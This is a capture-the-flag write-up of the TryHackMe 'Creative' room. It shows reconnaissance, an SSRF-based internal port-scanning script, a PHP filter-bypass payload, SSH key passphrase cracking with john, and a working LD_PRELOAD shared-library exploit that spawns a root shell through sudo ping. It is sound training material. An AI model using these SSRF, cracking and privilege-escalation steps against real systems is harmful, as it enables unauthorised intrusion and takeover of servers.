




# Write-Up: Creative
**Date:** 02/04/2025 \
**User:** [JAKK](https://tryhackme.com/p/JAKK)

[Creative](https://tryhackme.com/r/room/creative) is an easy-ranked CTF box, challenging us to exploit a vulnerable web application, which opens the possibility to compromise the web server and elevate our privileges with the aid of a dangerous misconfiguration.


## Reconaissance
### Port Scan
To gain a foothold on the victim's system, we first need to determine how we can interact with it, i.e. finding out about open ports and services being offered. We conduct a port scan with `nmap`, splitting port discovery and service identification in two. This gives us the advantage that we can check all 65,536 ports without conducting the costly service discovery (`-sV`) and default scripts scans (`-sC`) at the same time. The open ports can then specifically be scanned for services. Be aware that the flag `-T4` gives us an advantage in performance but makes the scan easily detectable for firewalls and other security tools.

```
> nmap -T4 -p0-65535 creative.thm
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-04 04:49 CST
Nmap scan report for creative.thm (10.10.109.142)
Host is up (0.047s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 121.44 seconds
```

We see that port `22` and `80` are open, presumably offering SSH and a web server respectively. To ensure this assumption, we conduct a service discovery and default script scan for those two ports, which confirms the hypothesis.

```
> nmap -T4 -p22,80 -sV -sC creative.thm
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-04 05:02 CST
Nmap scan report for creative.thm (10.10.109.142)
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
|   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
|_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Creative Studio | Free Bootstrap 4.3.x template
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.91 seconds
```

### Discovering the Web Service
The website offered on port `80` is an almost unaltered web template, only referencing a few images and the `/components.html` resource. All in all, neither homepage nor `/components.html` contain any relevant parts that could help us in compromising the machine. But maybe there are other hidden resources, which we will try to enumerate with `gobuster`.

```
> gobuster dir -u http://creative.thm -w /usr/share/wordlists/dirb/common.txt
/assets               (Status: 301) [Size: 178] [--> http://creative.thm/assets/]
/index.html           (Status: 200) [Size: 37589]
```

```
> gobuster dir -u http://creative.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,bak,sql,db,bac
/index.html           (Status: 200) [Size: 37589]
/assets               (Status: 301) [Size: 178] [--> http://creative.thm/assets/]
/components.html      (Status: 200) [Size: 41148]
```

Unfortunately, the enumeration of URIs doesn't bring us anywhere.

---

At this point, we could check if there are any subdomains that exist. To do this, we need to know the domain name of the web server, which is not indicated anywhere on the pages we have seen. But maybe we'll be lucky if we use the name of the room, i.e. `creative.thm`. To enumerate subdomains, we use the `vhost` option of `gobuster` and a wordlist of popular subdomain names that [can be found on Github](https://github.com/rbsec/dnscan/blob/master/subdomains-10000.txt).

```
> gobuster vhost --append-domain --domain creative.thm --url http://10.10.109.142 --wordlist ~/Downloads/subdomains-10000.txt
Found: beta.creative.thm Status: 200 [Size: 591]
```

Great, we found another segment of the website under `beta.creative.thm`! Let's add this hostname to our `/etc/hosts` file and inspect the site we just found.



As we can see, we find a web form that allows us to check if a given URL is online. Trying to enumerate URIs on the newly found subdomain with the prior `gobuster` commands doesn't bring up any new resource.


## Exploiting the URL Tester
### Checking RCE
Let's start a local HTTP server, to inspect what exactly happens when the tester tool checks an URL's availability. This can be quickly done with Python's `SimpleHTTPServer` module, which serves files and directory listings from the path it is launched. For testing purposes, we create a file named `test` whose sole content is also just the text "test". We then prompt the tool to check our server's availability by submitting `http://{YOUR IP}:8000/test` in the text field and see the specified file being requested.

```
> python -m http.server 8000
10.10.109.142 - - [04/Feb/2025 06:56:30] "GET /test HTTP/1.1" 200 -
```

Furthermore, we see that the file's content is being reflected on the response to our POST submit. If we are lucky, this could potentially imply that arbitrary code can be injected, especially if behind the WSGI service `nginx` on port `80` is some form of PHP driven entity. Let's change the content of our test file and see what happens, if the following simple PHP code is processed by the URL tester tool.

```php
<?php
echo 'PHP is being executed!';
?>
```

Unfortunately, we now receive an empty response when prompting the URL. When inspecting the site's source code, we can see why. The tool filtered the file's content and replaced the opening and ending brackets with comment sequences.



Playing around with different payloads, one can quickly see that the sequence `<?` triggers the replacement, where as the comment sequence ends with the first occurence of `>`. Knowing this, we can elevate our payload to the following. This should actually trick the replacement filter and only comment out the inner `<?php>` sequence.

```php
<<?php>?php
echo 'PHP is being executed!';
?>
```

Unfortunately, the payload as it should be interpreted by the server is just reflected as text, even though being correct. Of course, the `<?php` sequence isn't contigous but separated by a comment, which could prevent the interpretation as PHP code. Another possible explanation is that the backend server isn't run with PHP but for example Python.



As for now, let's try another approach than code injection.

### Enumerate Local Ports
After having tried to include local files in many different ways, but always encountering the *Dead* message, we could try to find locally available ports, that we previously didn't find with `nmap`. Since it is way to tedious to check all 65,536 ports by hand, we can write a custom but very simple Python script that automates this task.

The script iterates through all possible port numbers and makes a request with `curl` to URL tester tool while using the localhost address `0.0.0.0`, so that the server scans itself, at least for other web services.

```python
import subprocess, sys

print('Start enumerating internal ports...')
for i in range(65536):
    res = subprocess.check_output(
        ['curl', '-d', 'url=http://0.0.0.0:' + str(i), sys.argv[1]],
        stderr = subprocess.DEVNULL
    )
    if res != b'<p> Dead </p>':
        print(f'[+] Port {i} can be reached')
print('Finished enumeration.')
```

We can then invoke our custom script in the following fashion.

```
> python enumerate-internal-ports.py beta.creative.thm
Start enumerating internal ports...
[+] Port 0 can be reached
[+] Port 80 can be reached
[+] Port 1337 can be reached
```

Okay, port `1337` is new (actually `0` is new too, but references the service on port `80`). Let's go back to the webpage and request the tool to check `http://0.0.0.0:1337`.



Wow, I didn't expect the whole directory listing from the server. Specifying URIs (such as `http://0.0.0.0:1337/home`) shows us that we can basically include every directory listing and file content, at least if we have the necessary permissions.


## Gaining a Foothold
Now that we found a LFI via an internal port, we should check if we can access any sensible information such as history files, logs and cryptographic keys. In fact, we find an `.ssh` folder with a private key in the home folder of the user `saad`. If we want to use it to connect to the victim's machine via SSH, we are prompted for a password, meaning that the SSH key is password encrypted. Let us transform the key to a format that can in turn be processed by `john` to crack the password.

```
> ssh2john id_rsa > hash
> john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

After having cracked the password (which is deliberately not shown here, but found in `rockyou.txt`), we can actually log onto the machine as `saad`. In the user's home folder, we actually find the `user.txt` flag, which we could already have included via the LFI vulnerability.


## Escalating Our Privileges
Inspecting our user's home folder, we can see that the `.bash_history` file actually contains some information. Under it, we find the following bit.

```
echo "saad:-REDACTED-" > creds.txt
```

Apparently, we found ourselves a password for this user. Let's check its validity with `sudo -l`, which also gives us further information on potential extra rights our user has on this machine.

```
> sudo -l
[sudo] password for saad: 
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
```

As [GTFOBins](https://gtfobins.github.io/) suggests, `ping` doesn't allow us to break out and maintain root rights. The `env_keep+=LD_PRELOAD` on the other hand seems problematic, since it means that the user can start the `ping` program while using custom shared libraries, which is normally used to replace standard OS functionality for specialized use cases. In our case this allows us to create our own litte shared library, that we will write in C. Note that the function `_init()` is invoked when the shared library is started. Since we start the whole process (i.e. `ping`) with `sudo`, we have the rights to set the user and group ID to 0, making us root in this context. We then launch a `sh` session, before the invoke of `ping` takes place.

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/sh");
}
```

We compile the code, that we wrote in `exploit.c` on the victim's machine, with the following command.

```
gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
```

We can then start our root shell by invoking `ping` with `sudo` while accordingly setting the `LD_PRELOAD` environment variable to our custom library.

```
sudo LD_PRELOAD=./exploit.so ping
```

We then find the `root.txt` flag under `/root`, finalizing our task of breaching the web server.
